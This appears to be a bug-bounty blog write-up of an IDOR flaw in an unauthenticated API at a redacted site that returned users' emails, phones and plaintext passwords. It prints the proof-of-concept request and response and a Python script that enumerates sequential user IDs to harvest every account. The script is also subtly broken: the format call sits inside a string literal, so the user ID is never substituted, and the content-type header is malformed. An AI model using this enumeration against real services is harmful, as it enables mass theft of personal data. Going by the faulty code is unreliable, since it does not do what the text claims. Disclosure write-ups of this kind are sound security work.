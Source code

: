 ```yaml
---
title: "How Poor Authentication Led to Massive User Data Leakage: A Security Flaw Exposed"
date: 2023-07-04 09:15:00
mermaid: true
categories: [Bug Bounty]
tags: [bugbounty, hacking, python, idor]
image:
  path: https://secure.static.tumblr.com/ef2e2596c4ea072a60453d23ceab337f/coctv14/Y6Ln55n03/tumblr_static_azgsowaz948okgow4c4o8go8c.gif
---
```


Missing authentication leads to user data leakage, data security is one of the most important concerns for digital platforms. However, vulnerabilities that can be exploited by malicious actors are still commonly found. One such vulnerability is the lack of proper authentication on APIs, which can lead to user data leakage. Authentication is basically the most important part of security when building an application because it keeps unauthenticated people from accessing anything sensitive or trying to become a privileged user.

## The User Data Leakage Case

This article recounts the experience of a security researcher who managed to access and leak user data from an application simply by exploiting a weakness in the authentication system. The researcher conducted basic testing on the app by observing system behavior and detecting a vulnerability that allowed access without sufficient authentication.

## Step One: Initial Research

My first step was to explore the target application. In this test, I used the [BurpSuite](https://portswigger.net/burp) tool to comb through the application and identify potential gaps, such as APIs that do not require authentication to access user data. This creates an opportunity for an attacker to exploit personal information, such as a user's email and password, by simply changing the user ID in the URL.

The site didn't have many features and forms, I tested a few things messing with business logic, breaking authentication and session validation all seemed safe until when I checked every request in the proxy history using [BurpSuite](https://portswigger.net/burp) which made it easy to reproduce the issue. I found a `POST` api request to the path `/api/landing-page/get-user`

## Proof of Concept

### Request

```text
POST /api/landing-page/get-user HTTP/1.1
Host: redacted.com
Origin: https://redacted.com
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

guid=&code=0&data={"user_id":"<ID_USER_HERE>"}
```

### Response

```text
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
pragma: no-cache
cache-control: no-cache, no-store
content-length: 425
x-frame-options: SAMEORIGIN

{
  "code": "0",
  "info": "Successfully Get User Results",
  "data": {
    "id": 1,
    "nama": "My User",
    "email": "myuser@gmail.com",
    "msisdn": "121212122",
    "institusi": "",
    "password": "myuserpassword",
    "create_dtm": "2021-07-07T02:13:13.000Z",
    "nonce": "6603",
    "status_otp": 1,
    "status_otp_info": "{\"code\":\"0\",\"info\":\"OTP code sent successfully.\",\"data\":[]}",
    "status_otp_count": 0,
    "last_login": "2023-01-19T02:00:35.000Z"
  }
}
```

## The Security Flaw: IDOR (Insecure Direct Object Reference)

The flaw discovered in this case was an [Insecure Direct Object Reference (IDOR)](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://portswigger.net/web-security/access-control/idor&ved=2ahUKEwijl6LX5auMAxXFXmwGHYenEmMQFnoECAkQAQ&usg=AOvVaw1iGLeSV-Hu4-CW8fpbEgFg) a vulnerability that allows attackers to access other users' data by manipulating the ID parameter in API requests. In this case, the attacker only needed to change a number in the URL used to access user data, such as changing `userID=1` to `userID=2` to access data for a different user.

## Accessing and Leaking Data

By using this simple technique, the researcher was able to access user data on a large scale. The leaked data included sensitive information such as users’ email addresses and passwords. The researcher also realized that the system did not impose restrictions or protections against unauthorized access. As a result, the potential for data leakage was significantly increased, especially if the attacker knew or guessed valid user IDs.

I realized that the user IDs used were not random but sequential, so I wrote [python](https://www.python.org) code to leak the data of every registered user on the site.

### Python code

```python
import requests
import os

for i in range(10):
    r = requests.post("https://redacted.com/api/landing-page/get-user", data='guid=&code=0&data={"user_id":"{}".format(i)} ', headers={'User-Agent': f'Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/{i}', 'Content-Type': 'application/x-www-form -urlencoded'})
    if len(r.text) > 350:
        print(r.text + os.linesep)
    else:
        pass
```

Performs a loop to generate a number that will be used to guess the id of each user.

```python
for i in range(10):
```

Uses the [requests](https://pypi.org/project/requests/) library to make a request to the specified URL along with the data in the body.

```python
r = requests.post("https://redacted.com/api/landing-page/get-user", data='guid=&code=0&data={"user_id":"{}".format(i)} ', headers={'User-Agent': f'Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/{i}', 'Content-Type': 'application/x-www-form -urlencoded'})
```

Performs filtering on the response data to check if there is valid user data otherwise it will forward the next request.

```python
if len(r.text) > 350:
        print(r.text + os.linesep)
    else:
        pass
```

## The Impact of Data Leakage

Data leakage like this can have severe consequences. Exposed personal information can be used for various cybercrimes, including identity theft, fraud, or even further attacks that cause greater damage. For companies, such data breaches can harm their reputation, lead to legal consequences, and result in a loss of user trust.

## Preventing Data Leakage

Preventing data leakage caused by IDOR and other authentication flaws can be achieved with several measures:

* Implement Strong Authentication: Every API accessing sensitive data should be protected by strong and proper authentication. Using tokens or session-based authentication is an important first step.

* Access Validation: Ensure that users can only access their own data. The system must verify that the user ID provided in the API request matches the user who is making the request.

* Regular Security Testing: Conduct routine security tests, including penetration testing and code audits, to identify and patch vulnerabilities early.

* Security Training for Developers: Developers need to be thoroughly educated about potential vulnerabilities and the importance of securing APIs and authentication.

## $$$
![image](/assets/img/writeup/2023-07-04/Screenshot_2023-07-04_01-04-06.png){: .shadow }
_Rewarded by the program_

## Conclusion
Data leakage due to insufficient authentication can occur due to fundamental errors in system design. This case demonstrates the importance of always verifying access and protecting user data with the proper technology. By implementing the right preventive measures, the risk of data leakage can be minimized, and applications can operate more securely and earn the trust of users.